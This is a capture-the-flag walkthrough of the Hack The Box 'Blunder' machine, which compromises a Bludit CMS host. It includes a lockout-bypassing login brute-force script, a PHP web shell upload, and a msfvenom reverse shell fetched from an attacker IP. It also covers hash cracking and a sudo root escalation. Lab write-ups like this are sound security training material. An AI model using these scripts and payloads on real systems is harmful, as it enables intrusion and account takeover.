# [Blunder](https://app.hackthebox.eu/machines/254)

Start with `nmap`:

```bash
# find open TCP ports
sudo masscan -p1-65535 10.10.10.191 --rate=1000 -e tun0 > masscan.txt
tcpports=$(cat masscan.txt | cut -d ' ' -f 4 | cut -d '/' -f 1 | sort -n | tr '\n' ',' | sed 's/,$//')
# TCP deep scan
sudo nmap -sS -p $tcpports -oA tcp --open -Pn --script "default,safe,vuln" -sV 10.10.10.191 &
# TCP quick scan
sudo nmap -v -sS -sC -F --open -Pn -sV 10.10.10.191
# UDP quick scan
sudo nmap -v -sU -F --open -Pn -sV --version-intensity 0 10.10.10.191
```

The quick TCP scan returns the following:



Start with a scan of the website:

```bash
nikto -h http://10.10.10.191/ -C all --maxtime=120s --output=nikto.txt
```

Then browse to the site manually:

```bash
firefox http://10.10.10.191/
```


Site looks like a template? The `Powered by EgotisticalSW` link at the bottom links to the following Twitter:

- https://www.twitter.com/WhortonMr

No luck yet... Looking at the HTML source shows the following interesting links:

```
http://10.10.10.191/bl-themes/blogx/img/favicon.png
http://10.10.10.191/bl-kernel/css/bootstrap.min.css?version=3.9.2
```

Browsing to `http://10.10.10.191/bl-kernel/` shows the following:


Getting warmer... Clicking around the various PHP files shows the following for some:

```
Bludit CMS.
```

This looks like a searchable term. Try finding an exploit:

```bash
searchsploit bludit
```



The `version=3.9.2` from the links in the HTML source help point to exploit 48701:

- https://www.exploit-db.com/exploits/48701

The exploit requires credentials to `http://10.10.10.191/admin/login`. Some Googling shows that the default user is `admin` and the password is set during install:

- https://docs.bludit.com/en/security/password-recovery

Looking at the HTML source of `http://10.10.10.191/admin/login` shows the following:

```html
<form method="post" action=""  autocomplete="off">
  <input type="hidden" id="jstokenCSRF" name="tokenCSRF" value="2977a39e5bac72240d96ffafe5ddc37a41ee5d4b">
  <div class="form-group">
    <input type="text" value="admin" class="form-control form-control-lg" id="jsusername" name="username" placeholder="Username" autofocus>
  </div>
  <div class="form-group">
    <input type="password" class="form-control form-control-lg" id="jspassword" name="password" placeholder="Password">
  </div>
  <div class="form-check">
    <input class="form-check-input" type="checkbox" value="true" id="jsremember" name="remember">
    <label class="form-check-label" for="jsremember">Remember me</label>
  </div>
  <div class="form-group mt-4">
    <button type="submit" class="btn btn-primary btn-lg mr-2 w-100" name="save">Login</button>
  </div>
</form>
```

Trying some basic logins does not work and gives the following error through JavaScript:

```javascript
setTimeout(function(){ showAlert("Username or password incorrect") }, 500);
```

This can be converted into the following brute force Python script that takes care of session cookies and the CSRF token:

```python
import re
import sys
import random
import string
import requests
import multiprocessing
import multiprocessing.dummy

USERNAME = 'admin'
TARGET   = 'http://10.10.10.191/admin/login'
WORDLIST = 'wordlist.txt'
PROXIES  = {}
# for debugging with BurpSuite:
# PROXIES  = {
#   'http' : 'http://127.0.0.1:8080/'
# }
HEADERS = {
  'User-Agent': 'Mozilla/5.0',
}

def thread(password):
  password = password.strip()
  s = requests.session()
  r = s.get(TARGET, proxies=PROXIES, headers=HEADERS)
  n = re.findall(r'id="jstokenCSRF" name="tokenCSRF" value="(.*)"', r.text)
  print(f'[+][BLUDIT-KEY = {s.cookies.get_dict()["BLUDIT-KEY"]}][CSRF = {n[0]}] trying {USERNAME}/{password} ...')
  r = s.post(TARGET, proxies=PROXIES, headers=HEADERS, data={
    'tokenCSRF' : n[0],
    'username' : USERNAME,
    'password' : password,
    'remember' : 'true',
    'save': '',
  })
  if 'Username or password incorrect' not in r.text:
    print(f'[!] FOUND: {USERNAME}/{password}')
    print(r.text)

if __name__ == '__main__':
  wordlist = []
  with open(WORDLIST, 'r', encoding='latin-1') as f:
    wordlist.extend(f.readlines())
  print(f'[*] loaded {len(wordlist)} values ...')
  threads = multiprocessing.dummy.Pool(multiprocessing.cpu_count() * 4) 
  threads.map(thread, wordlist)
```

Now generate `wordlist.txt` by scraping the website:

```bash
cewl 10.10.10.191 -w wordlist.txt # should make ~349 passwords
```

Running the above Python script (using Python3) returns a new error in the following JavaScript:

```javascript
setTimeout(function(){ showAlert("IP address has been blocked<br>Try again in a few minutes") }, 500);
```

It seems like a bruteforce is not possible? Some Googling for this leads to the following post:

- https://rastating.github.io/bludit-brute-force-mitigation-bypass/

It seems like the bypass is just to set the `X_FORWARDED_FOR` HTTP header to a random value for each request to bypass the blacklist:

- https://github.com/bludit/bludit/blob/b1fc6cd0be012c038af7ad83ed2209bf7e976f88/bl-kernel/security.class.php#L108

The Python script now becomes the following:

```python
import re
import sys
import random
import string
import requests
import multiprocessing
import multiprocessing.dummy

USERNAME = 'admin'
TARGET   = 'http://10.10.10.191/admin/login'
WORDLIST = 'wordlist.txt'
PROXIES  = {}
# for debugging with BurpSuite:
# PROXIES  = {
#   'http' : 'http://127.0.0.1:8080/'
# }
HEADERS = {
  'User-Agent': 'Mozilla/5.0',
}

def thread(password):
  password = password.strip()
  s = requests.session()
  r = s.get(TARGET, proxies=PROXIES, headers=HEADERS)
  n = re.findall(r'id="jstokenCSRF" name="tokenCSRF" value="(.*)"', r.text)
  print(f'[+][BLUDIT-KEY = {s.cookies.get_dict()["BLUDIT-KEY"]}][CSRF = {n[0]}] trying {USERNAME}/{password} ...')
  # salt password with a random string of 20 characters/digits
  HEADERS['X-Forwarded-For'] = password + ''.join(random.choice(string.ascii_uppercase + string.ascii_lowercase + string.digits) for x in range(20))
  r = s.post(TARGET, proxies=PROXIES, headers=HEADERS, data={
    'tokenCSRF' : n[0],
    'username' : USERNAME,
    'password' : password,
    'remember' : 'true',
    'save': '',
  })
  if 'Username or password incorrect' not in r.text:
    print(f'[!] FOUND: {USERNAME}/{password}')
    print(r.text)

if __name__ == '__main__':
  wordlist = []
  with open(WORDLIST, 'r', encoding='latin-1') as f:
    wordlist.extend(f.readlines())
  print(f'[*] loaded {len(wordlist)} values ...')
  threads = multiprocessing.dummy.Pool(multiprocessing.cpu_count() * 4) 
  threads.map(thread, wordlist)
```

But no luck... There must be something else to find? Try a directory search for common "note" files:

```bash
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -q -z -o gobuster.notes.txt -x txt,pdf,doc,docx \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -a 'Mozilla/5.0' \
  -u http://10.10.10.191/ &
```

This returns an interesting result:

```
/about (Status: 200)
/0 (Status: 200)
/admin (Status: 301)
/robots.txt (Status: 200)
/todo.txt (Status: 200)
/usb (Status: 200)
/LICENSE (Status: 200)
```

`todo.txt` has the following content:

```
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
```

It seems like `fergus` is a new username. Try the same bruteforce with `USERNAME` set to `fergus` in the Python script:



Nice! It looks like the login is `fergus/RolandDeschain`:



Now try exploit 48701 with the correct username/password:

```bash
# copy over the exploit
searchsploit -m 48701
cp 48701.txt 48701.py
# set the following:
# url = 'http://10.10.10.191'
# username = 'fergus'
# password = 'RolandDeschain'
vim 48701.py
# make the exploit payloads
echo -e '<?php echo shell_exec($_REQUEST["c"]); ?>' > evil.png
echo "RewriteEngine off" >> .htaccess
echo "AddType application/x-httpd-php .png" >> .htaccess
# run the exploit
python2.7 48701.py
# test the exploit
curl -s -G --data-urlencode 'c=whoami' http://10.10.10.191/bl-content/tmp/temp/evil.png
```



That is remote code execution. Use it to get a dedicated reverse shell:

```bash
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
sudo python3 -m http.server 80
nc -nvlp 6969
curl -s -G --data-urlencode 'c=wget -O /dev/shm/bubba.elf 10.10.14.25/bubba.elf' http://10.10.10.191/bl-content/tmp/temp/evil.png
curl -s -G --data-urlencode 'c=chmod +x /dev/shm/bubba.elf' http://10.10.10.191/bl-content/tmp/temp/evil.png
curl -s -G --data-urlencode 'c=ls -la /dev/shm/' http://10.10.10.191/bl-content/tmp/temp/evil.png
curl -s -G --data-urlencode 'c=/dev/shm/bubba.elf' http://10.10.10.191/bl-content/tmp/temp/evil.png
```

This provides a dedicated shell but no `user.txt`:



After connecting, try going for the passwords for the Bludit application. Looking for information on this brings up the following:

- https://github.com/bludit/password-recovery-tool

The source code for `recovery.php` shows that a password is located at `bl-content/databases/users.php` and is a SHA1 hash of the password and a salt. Try finding these on the target:



It seems like there are 2 versions of Bludit installed? The 2.9.2 version of `users.php` has the following:

```php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Admin",
        "firstName": "Administrator",
        "lastName": "",
        "role": "admin",
        "password": "bfcc887f62e36ea019e3295aafb8a3885966e265",
        "salt": "5dde2887e7aca",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""
    },
    "fergus": {
        "firstName": "",
        "lastName": "",
        "nickname": "",
        "description": "",
        "role": "author",
        "password": "be5e169cdf51bd4c878ae89a0a89de9cc0c9d8c7",
        "salt": "jqxpjfnv",
        "email": "",
        "registered": "2019-11-27 13:26:44",
        "tokenRemember": "79d936d7de0753abd3e092da64a07896",
        "tokenAuth": "0e8011811356c0c5bd2211cba8c50471",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "codepen": "",
        "instagram": "",
        "github": "",
        "gitlab": "",
        "linkedin": "",
        "mastodon": ""
    }
}
```

This looks like the one that is running. The `3.10.0a` version has the following `users.php`:

```php
<?php defined('BLUDIT') or die('Bludit CMS.'); ?>
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
        "registered": "2019-11-27 07:40:55",
        "tokenRemember": "",
        "tokenAuth": "b380cb62057e9da47afce66b4615107d",
        "tokenAuthTTL": "2009-03-15 14:00",
        "twitter": "",
        "facebook": "",
        "instagram": "",
        "codepen": "",
        "linkedin": "",
        "github": "",
        "gitlab": ""}
}
```

This looks unique and matches the target lateral movement needed to get `user.txt`. Try cracking this SHA1 hash since there is no salt for it like the other 2:

```bash
echo 'faca404fd5c0a31cf1897b823c695c85cffeb98d' > hugo.hash
cp /usr/share/wordlists/rockyou.txt.gz .
gunzip rockyou.txt.gz
hashcat -m 100 -a 0 --quiet --force --potfile-disable hugo.hash rockyou.txt
```

But no luck? Try https://crackstation.net/:



**NOTE:** This password can also be cracked by adding a common password modifier rule:

```bash
hashcat -m 100 -a 0 --quiet --force --potfile-disable -r /usr/share/hashcat/rules/best64.rule hugo.hash rockyou.txt
```



Nice! The password is `Password120`. Try becoming `hugo` using password re-use:



This provides `user.txt` and also shows that `hugo` has interesting Sudo permissions. This allows for `hugo` to become any other user besides `root` and run `/bin/bash` as that user. However, a basic Google for `sudo (ALL, !root)` in order to better understand this Sudo format also gives the following link as a top hit:

- https://www.bleepingcomputer.com/news/linux/linux-sudo-bug-lets-you-run-commands-as-root-most-installs-unaffected/

It looks like this format _may_ be vulnerable to [CVE-2019-14287](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-14287):

- https://www.sudo.ws/alerts/minus_1_uid.html

Check the target verison:



This target is vulnerable since all version before `1.8.28` are affected. Use this to get a shell as `root`:



---

This machine had some interesting rabbit holes to get lost in... Here are some:

### Rabbit Hole #1:

When looking through files on the target machine under `/home`, 2 interesting ones stand out:



Transfer the files over FTP to Kali:

```bash
# run on kali
sudo python3 -m pyftpdlib -p 21 -w
# run on target
cd /home/shaun/Pictures
ftp 10.10.14.25
passive
mput *
```

Looking at these files in Kali show the following:





The pictures hint at some link of buffer overflow on the system with s SUID binary called `buf` and that the user `shaun` may have mail. However, no more evidence of this could be found (the `root.txt` in the image is also wrong)... 

### Rabbit Hole #2:

There is an interesting folder at `/ftp`:



Downoad this files to Kali over FTP like above. Looking through them shows that maybe there is some kind of espionage between `Shaun` and someone called `Sophie`? Here is `note.txt`:

```
Hey Sophie
I've left the thing you're looking for in here for you to continue my work
when I leave. The other thing is the same although Ive left it elsewhere too.

Its using the method we talked about; dont leave it on a post-it note this time!

Thanks
Shaun
```

The `config.json` just has some kind of superhero info. Maybe that is helpful for password bruteforcing (**un-tested**)? The `config` file is a GZ archive that contains a `buzz.wav` file, which is another deadend... The `D5100_EN.pdf` is a Nikon D5100 Camera User Manual. Maybe this is a hint for another exploit? Some Googling shows the following:

-  https://www.slrlounge.com/nikonhacker-unlocks-full-manual-video-recording-d5100/

However, this does not help with getting to `root.txt`? Likely another deadend...